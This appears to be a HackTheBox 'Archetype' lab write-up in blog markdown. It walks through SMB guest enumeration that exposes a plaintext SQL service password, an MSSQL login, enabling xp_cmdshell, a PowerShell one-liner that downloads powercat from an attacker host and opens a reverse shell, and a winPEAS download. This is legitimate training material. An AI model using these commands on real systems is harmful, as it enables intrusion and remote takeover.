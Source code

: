 ```yaml
---
layout: post
title: HackTheBox Archetype
subtitle: StartingPoint Archetype Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-06-Archetype/c7aa0835353bb4a42ec1fb12fcdc3a18_MD5.jpeg)
## Target - 10.129.68.227
### Open Port
```bash
nmap -sC -sV -Pn -oN Archetype 10.129.68.227
```
![](assets/images/posts/2025-03-06-Archetype/1e4da9b4abb6d6341988fa1a18d32841_MD5.jpeg)
### SMB Enum (Guest Auth)
```bash
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --shares
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --spider backups --regex .

# ARCHETYPE\sql_svc : M3g4c0rp123
smbclient \\\\10.129.68.227\\backups -U 'guest' --password=''
get prod.dtsConfig
cat prod.dtsConfig
```

![](assets/images/posts/2025-03-06-Archetype/d16001211c17989921ca9d7924123219_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/2b3979fe8f0430bac8990e09ff6483da_MD5.jpeg)

### mssql RCE
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.68.227 -windows-auth

# xp_cmdshell 활성화
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
# oneline reverse shell
EXEC xp_cmdshell 'powershell -c "IEX (New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.11:8000/powercat.ps1\");powercat -c 10.10.14.11 -p 4444 -e powershell"';
```

![](assets/images/posts/2025-03-06-Archetype/9c5ab89e51a73bef43ca35e9513680a4_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/ddd88b5c3111a3ccd4219434fe508f7a_MD5.jpeg)

### winPEAS
```powershell
iwr -uri http://10.10.14.11:8000/winPEASx64.exe -OutFile winPEAS.exe
.\winPEAS.exe
```